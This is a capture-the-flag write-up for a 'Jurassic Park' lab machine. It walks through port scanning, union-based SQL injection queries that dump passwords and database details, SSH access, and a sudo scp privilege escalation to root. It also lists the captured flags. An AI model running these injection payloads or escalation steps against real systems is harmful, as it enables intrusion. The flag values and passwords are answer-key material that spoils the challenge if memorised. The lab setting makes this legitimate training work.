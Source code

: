 # Jurassic Park

"This medium-hard task will require you to enumerate the web application, get credentials to the server and find 5 flags hidden around the file system. Oh, Dennis Nedry has helped us to secure the app too...

You're also going to want to turn up your devices volume (firefox is recommended). So, deploy the VM and get hacking..."

## Recon

Initial `nmap -p-` revealed:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 02:54 UTC
Nmap scan report for ip-10-10-23-246.eu-west-1.compute.internal (10.10.23.246)
Host is up (0.00065s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:C7:70:B4:4A:54 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.83 seconds
```

nikto and dirb against the website revealed a delete page, whose contents was the following:

```
New priv esc for Ubunut??

Change MySQL password on main system!
```

The assets dir was also listable. It contained images and a few audio files, none of which seemed to contain anything of note.

Clicking through the website to `shop.php` there were three packages you could buy. Clicking through on any of them took me to `item.php` with a query param `id` of 1, 2 or 3. The id seemed injectable; some entries, like `id=*` would return a mysql error. Others, like `id='`, would trigger a denied error page with a jurassic park themed error.

sqlmap didnt work - kept timing out (later when I examined the source of the page, there seems to be some anti-sqlmap code in there).

I tried incrementing id, and on id 5 I got a 'development product' with the description:

```
Dennis, why have you blocked these characters: ' # DROP - username @ ---- Is this our WAF now?
```

## SQLi

Trying the query `1 union select null, password, null, null, null from users` results in the password `ih8dinos` being printed on screen. I had confirmed the five column select and positioning already through trial and error.

Select into outfile didn't work (--secure-file-priv or whatever was not set). Select `user()` revealed mysql was running as root@localhost. Trying to ssh onto the box with root and `ih8dinos` did not get me access unfortunately.

I discovered the sql inject would only return the last row from its query as a result. Therefore, ih8dinos from above was the password of the final row in the users table. Appending `limit 2` got a second and as far as I could see, the only other password: `D0nt3ATM3`. This also didn't work with ssh.

However, focusing on the room questions:

1. To get the database name, I used: `1 union select distinct null, table_schema, null, null, null from information_schema.tables limit 4` and revealed `park`

2. I used `1 union select null, table_name, null, null, null from information_schema.tables where table_schema = "park" limit 2` to discover just two tables, `items` and `users`. I already know from my injection that `items` has `5` columns

3. `1 union select null, version(), null, null, null` reveals `5.7.25-0ubuntu0.16.04.2`. Going by the answer mask, the answer is `ubuntu 16.04`.

4. Dennis' password could be one of the two I have found so far. `ih8dinos` was the answer.

At this point I tried ssh'ing as `dennis` to the machine, and the password worked, getting me a shell as dennis.

## Flags

**flag1.txt** was in dennis's home dir: `b89f2d69c56b9981ac92dd267f`

I ran `sudo -l` immediately, and discovered:

```
Matching Defaults entries for dennis on ip-10-10-23-246.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-23-246.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
```

dennis had a test.sh file saying **flag5.txt** was under /root. I used `sudo scp /root/flag5.txt .` to get flag5 where I could read it: `2a7074e491fcacc7eeba97808dc5e2ec`

`find / -name flag* 2>/dev/null` revealed **flag2** at `/boot/grub/fonts/flagTwo.txt`: `96ccd6b429be8c9a4b501c7a0b117b0a` (I could also have found this path via checking some of dennis' history files).

**flag3** was the top entry of dennis' `.bash_history` file: `b4973bbc9053807856ec815db25fb3f1`

The final flag (for me) was **flag 4**. The file `.viminfo` in dennis' dir said it should be `/tmp/flagFour.txt`. I looked around but the flag was nowhere to be seen. Even root searches (see next note) didn't reveal it. I finally looked for help and discovered this is a bug - the flag is supposed to be there in `tmp`, but isn't. So, using a walkthrough (where the writer said he got it direct from the creator), I 'OSINTed' the flag as `f5339ad0edbd0b0fe1262d91a475c2c4`

At this point, I used https://gtfobins.github.io/gtfobins/scp/#sudo to get a root shell using scp, then changed the root password to `hacktheplanet` for good measure. This wasn't really necessary, but fuckit.
